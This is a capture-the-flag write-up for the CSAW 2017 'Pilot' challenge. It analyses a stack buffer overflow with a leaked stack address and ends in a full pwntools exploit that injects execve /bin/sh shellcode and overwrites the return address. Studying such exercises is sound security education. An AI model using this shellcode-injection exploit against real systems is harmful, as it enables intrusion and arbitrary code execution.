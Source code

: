 # Pilot

Full disclosure, a teammate of mine solved this challenge while I was working on SVC, so I solved this after the competition. In addition to that, the shellcode I used is from this other writeup  of the this challenge:

https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/

Let's take a look at the challenge:
```
$	file pilot 
pilot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ed26a43b94fd3ff1dd15964e4106df72c01dc6c, stripped
$	pwn checksec pilot 
[*] '/Hackery/csaw17/pilot-pwn-75/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
So we can see that it is a 64 bit elf, without NX, a Stack Canary, or PIE. Let's run it:

```
$	./pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7ffe1b239cb0
[*]Command:gimme that flag
```

So it starts off by printing out a bunch of text, then gives us what appears to be a stack address, then prompts us for input. Let's try to break it:

```
$	python -c 'print "0"*1000' | ./pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fff8f8a6770
[*]Command:Segmentation fault (core dumped)
```

So by throwing 1000 bytes worth of `'0'`, we managed to break it. It is probably a buffer overflow vulnerabillity. Looking at the code in IDA, the following bit of code sticks out:

```
  if ( read(0, &buf, 0x40uLL) <= 4 )
  {
    LODWORD(v11) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]There are no commands....");
    std::ostream::operator<<(v11, &std::endl<char,std::char_traits<char>>);
    LODWORD(v12) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Mission Failed....");
    std::ostream::operator<<(v12, &std::endl<char,std::char_traits<char>>);
    result = 0xFFFFFFFFLL;
  }
```

That call to read is where our input is scanned into memory. We can see that if it scans in less than 4 bytes into memory, it will print out a `Mission Failed` statement. SO we can see that it is scanning in `0x40` bytes into memory into `buf`. 

```
-0000000000000020 buf             db 32 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```

Here we can that our input is being scanned into `rbp-0x20`. We can see that the return address is stored at `rbp+0x8`. With the `0x40` bytes of data we get to write with the read call, we can overwrite the return address. Now about that infoleak:

```
  std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
  LODWORD(v9) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Location:");
  LODWORD(v10) = std::ostream::operator<<(v9, &buf);
```

Here we can see the infoleak being printed. We can also see that the address being printed is that of `buf`, which is where our input is stored. So we have the address for the start of our input.

With these two things, we should be able to simply push shellcode onto the stack, then overwrite the return address to point to the start of our shellcode. That way when the function returns, it will execute our shellcode.

Now one thing to note, our shellcode has to be under 32 bytes. The reason for this being is that `buf` is only 32 bytes, and then there is `rbp` which takes up the 8 bytes between `buf` and the return address. When the code calls the leave instruction before it returns, it pops a value into the `rbp` register and will overwrite anything that is in it. So we have to if our shellcode into 32 bytes.

 Now our exploit will look like this:
 
 ```
 4 NOP instructions
 shellcode (24 bytes)
 12 NOP instruction (really doesn't matter what this us)
infoleak address (start of our input)
 ```
 
 We will throw 4 NOP instructions (NOP just runs the next instruction) in the beginning, just to give us a little room for error (we shouldn't need it). Then our shellcode will fill up the rest of the 32 bytes. Here is the exploit:
 
```
#Import pwntools
from pwn import *

#Establish the target
target = process('./pilot')
context.binary = ELF('pilot')
#target = remote("pwn.chal.csaw.io", 8464)

#Attach gdb
#gdb.attach(target, gdbscript = 'b *0x400ae0')

#Print out the initial text
print target.recvuntil("[*]Good Luck Pilot!....")

#Scan in and filter out the infoleak
target.recvline()
leak = target.recvline()
print leak
leak = leak.replace("[*]Location:", "")
leak = int(leak, 16)

#Print out the infoleak, then prompt for input as a break
log.info("The leak is: " + hex(leak))
print target.recvuntil("[*]Command:", "")

#Establish the shellcode, the offsets, and the payload
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
offset0 = "\x90"*4
offset1 = "\x90"*12
payload = offset0 + shellcode + offset1 + p64(leak)

#Send the payload
target.send(payload)

#Drop to an interactive shell
target.interactive()
```
